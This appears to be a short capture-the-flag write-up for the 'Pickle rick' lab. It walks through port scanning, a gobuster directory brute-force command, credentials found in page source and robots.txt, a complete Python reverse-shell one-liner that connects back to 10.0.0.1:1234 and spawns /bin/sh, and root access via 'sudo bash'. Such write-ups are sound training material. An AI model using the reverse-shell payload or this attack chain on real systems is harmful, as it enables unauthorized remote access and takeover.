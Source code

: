 # Pickle rick

## Enumeration
Scanning using rustscan shows 2 port are open, webserver and ssh server
Inspecting the source code, we found his username which is `R1ckRul3s`
Robots.txt shows a text that could be some kind of password? it is `Wubbalubbadubdub`
Not much info can be found right now so I enumerate the directory using gobuster
`gobuster dir -t 16 -u http://10.10.215.45/:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
Gobuster revealed login.php, visiting it and using the login credentials we are greeted with a command execution page

## Gaining access
With the command execution, testing out linux commands like ls -a revealed file content but this also means
we could potentially gain a reverse shell. We see that python3 is available and this can be used to get reverse shell
using `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
We are now able to read the content to retrieve the first ingredient.

The next ingredient can be found in the home directory 

Lastly, just trying out sudo bash allowed us to gain root so the last ingredient is probably in the root directory


